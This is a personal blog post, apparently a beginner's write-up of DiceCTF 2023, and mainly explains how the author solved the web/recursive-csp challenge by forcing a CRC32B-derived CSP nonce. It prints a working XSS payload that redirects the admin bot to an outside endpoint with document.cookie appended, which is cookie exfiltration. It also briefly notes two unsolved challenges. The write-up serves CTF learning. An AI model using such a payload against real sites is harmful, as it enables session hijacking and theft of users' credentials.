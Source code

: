 ```yaml
---
title: "DiceCTF 2023 Writeup"
date: 2023-02-11T09:47:42-08:00
description: My DiceCTF challenge experiences. What I learned and what cool things I found out.
tags:
  - ctf
showTableOfContents: true
showCover: false
---
```


DiceGang 🎲 just finished hosting DiceCTF 2023 (https://ctf.dicega.ng). It was first my first ever CTF event. I didn't really have any expectations going in and signed up on a whim. But guess what? I managed to solve one of the challenges and even gave a couple others a shot. I learned a ton from this event, and I'm definitely going to attend more CTF events in the future.

Here are my write ups.

### web/recursive-csp
* solved
* solves: 178
* description: the nonce isn't random, so how hard could this be? (the flag is in the admin bot's cookie)

I was greeted with a simple Hello World and an input for name. The form is simple, it submits a `GET` request with `name` as query parameter. The new page's title changed from "Hello world! to "Hello andy!".

{{< figure
    src="hello-world.png"
    alt="A screenshot of the recursive-csp challenge."
>}}

This was screaming XSS to me, so I just randomly inputting possible XSS attacks. But none of the `<script>` code was executing. Looking at the console error, it was blocked by the CSP header.
```
Content Security Policy: The page’s settings blocked the loading of a resource at inline (“script-src”).
```

The CSP header (`content-security-policy: default-src 'none'; script-src 'nonce-fe26ee76' 'unsafe-inline'; base-uri 'none';`) is only allowing script with particular nonce! This matches up with the hint. I started looking at how the nonce is generated by the server. At the first, I thought it was using the whole document or the date time as the input for hashing, and then only to realized that only the `name` parameter was used for input. It made so much sense to just use the input, this took way longer than I want to admit. 

Now I know what the server was using for the input, I needed to know what kind of algorithm it is using. The nonce was always 8 characters so I started looking at any algorithm that will output 8 characters. I spent a long time on searching this. I didn't know many hashing or encoding function except the basics: md5, sha256, etc. Until I finally found a site: https://md5calc.com. I used it to test md5 and other algorithms I know. What's cool about this site is that it outputs string encoded with other popular algorithms. This is how I found "CRC32B" hashing function.

> Future self here: it seems like CRC32B is a common hashing function provided by PHP. If only I could google what kind of hashing function php provides.

Now I know how the server generate the nonce, I just need to somehow force it to match with my XSS. I wrote a simple js script to output `<script nonce="{input}">alert(1)</script>` where I replaced the "{input}" with a 8 characters random string and hoped the CRC32B hashing will return the same thing. My script didn't work and I was stuck. It was not able even brute force one match for me. I ran the script for half an hour but no luck. 

I began searching online for a way to brute force it, and luckily stumbled upon this blog post by [Nayuki] https://www.nayuki.io/page/forcing-a-files-crc-to-any-value. The blog explains in details how the math works. To summarize it, the script adds 4 extra bytes to match the provided hash. This was really cool. I experimented with the script and found out some bytes that are injected are not URI friendly so I have to re-hash it again with a different value. 

At the end, I wrote a script to generate the hash. The flag was in admin bot's cookie so I had to update the script to send the cookie to an endpoint I control. Since CSP prevents any network requests for sending the cookie, I used `document.location` to change the URL in admin bot and hoped that it would redirect before it close the headless browser. To my surprise it worked. 

Here is my final payload. I injected the random 4 bytes at the end (`u091`). You can check the hash, it should match to `55ed1ba5`.
```html
<script nonce="55ed1ba5">document.location="https://adice.free.beeceptor.com?c="+document.cookie</script>  uO91
```

> Future self here: `https://beeceptor.com` was a site I used to get a temporary endpoint. However, reading everyone else's write up it seemed like `https://webhook.site` is what people usually use. 

This is the flag I got at the end, `dice{h0pe_that_d1dnt_take_too_l0ng}`. Honestly, I faced a lot of difficulties during the whole challenge: figuring out the hash algorithm, troubleshooting why the random bytes weren't working in the URL, and understanding how the admin bot operates. It took me roughly 15 hours to solve this challenge, but even if I hadn't solve it, it would still have been worth the effort. The amount of joy when I saw the flag was indescribable.

{{< figure
    src="solved-screenshot.png"
    alt="A solved screenshot for recursive-csp challenge in dashboard view."
>}}

Here is the author [strellic]'s [write up](https://brycec.me/posts/dicectf_2023_challenges). He wrote a simple rust program to force the output which is much faster than my javascript version! Additionally, he created three more awesome challenges that are worth checking out!


## Unsolved challenge 

I attempted other challenges but couldn't solve them. Here are notes to myself for studying and documenting what I attempted.

### web/scorescope
* solves: 55
* description: I'm really struggling in this class. Care to give me a hand?

This challenge had a file named `template.py`, we needed to implement all the functions and upload to the site for grading. (It felt like university homework.) The test cases included a `hidden` case so users couldn't guess it. I couldn't solve this. I don't use `python` regularly. But here is a good [write up by r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/).

I learned a lot about exposing what the main module has and how to manipulate it.

### web/codebox
* solves: 30
* description: strellic makes csp challs, maybe i should try one sometime

This is another really cool challenge with CSP. It uses `report-uri` to leak information to an external server. It also uses a cool trick with how `URL().searchParams.get()` and `express`'s `req.query` parse multiple parameters with the same key. `URL` uses the first and `express` uses the last. This blew my mind 🤯. I didn't know even think this was possible, I assume everything follow a standard.

[r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/)'s write up has a detail explanation on how the challenge worked and how they solved it.


## Conclusion

This was my first ever CTF event, I am really proud that I even solved 1 challenge. I learned a lot by participating the event. Also, thank you to the DiceGang staff in teh discord chat. I didn't really know how to use the admin bot so I was asking weird questions about it.

Here are things that I learned:
* Amazing people/groups to follow: [strellic], [ankursundara], [r3kapig], [Nayuki], and [dicegang]
* Content Security Policy header and how to use it.
* CRC32 hashing algorithm.
* [pwntool](https://github.com/Gallopsled/pwntools) to interact with server. Useful for scripting and parsing the output.


There are plenty more things that I won't list here. That's about it, thank you for reading. 

[strellic]: https://twitter.com/Strellic_
[ankursundara]: https://twitter.com/ankursundara
[r3kapig]: https://twitter.com/r3kapig
[Nayuki]: https://www.nayuki.io
[dicegang]: https://twitter.com/dicegangctf

